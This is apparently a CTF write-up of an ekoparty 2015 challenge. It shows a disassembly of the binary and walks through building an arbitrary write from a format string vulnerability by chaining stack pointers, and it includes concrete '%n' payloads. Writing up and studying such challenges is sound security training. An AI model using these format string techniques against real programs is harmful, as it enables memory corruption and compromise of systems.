 ```
mov dword [esp], 0x13370aa6
call dword 0x13370580       ; ? (value in got is 0xb7e8ec10)
lea eax, [ebp-0x19]
mov [esp+0x4], eax
mov dword [esp], 0x13370aa7 ; Welcome to ekoparty 2015!
call dword 0x133704f0       ; strcmp? (value in got is 0xb7f60b60)
test eax, eax
jnz 0x13370932
mov dword [esp], 0x13370ac4 ; OMG! nice work, your flag is:
call dword 0x13370510       ; puts?
mov eax, [0x13372108]       ; -> 0x13373008, contains '47fa'
mov [esp+0x4], eax
mov dword [esp], 0x133720c1 ; qs'HG, 7173271f..
call dword 0x133706dd       ; see below
mov [ebp-0x24], eax
mov eax, [0x13372108]
mov [esp+0x4], eax
mov dword [esp], 0x133720cc ; 0x1d0a0c56
or al, 0xd8
std
invalid
```

Since our input can never be larger than 12 bytes, we can never win the strcmp with `Welcome to ekoparty 2015`. From here, we tried a lot of things. The 12 char input limit was annoying, cos we couldn't really write anything, anywhere:

`A\xde\xad\xbe\xef%255c%8$hn` was 15 chars... So we set out to make a write() function using the format string vuln. 

On the stack, there are many DWORDS. Some of them contain stack addresses. Some of those addresses refer to other stack addresses (they're usually stack frame pointers). Using three memory positions, we could construct a write function using format string argument 25, 61 and 124 (ASLR is off so the addresses remain constant). Here's how:

$25 contains the address of $61. Let's assume $25 contains 0xfffff080.

$61 is at 0xfffff080 and contains 0xfffff1a0, which is $124 (math doesn't work out but bear with me). 

$124 contains nothing of interest, and isn't used by the binary. 

If we now use the format string, we use $61 to write to $124, and $25 to update $61. Finally, once we've written out an address in $124, we can use the format string to write to that location. 

Let's assume we want to write 0x41414141 to 0x804b020. We first do this:

```
%32c%61$hhn (write 0x20 to 0xfffff1a0). 
```

Then, we update the pointer at $61 by writing to $25:

```
%161c%25$hhn
```
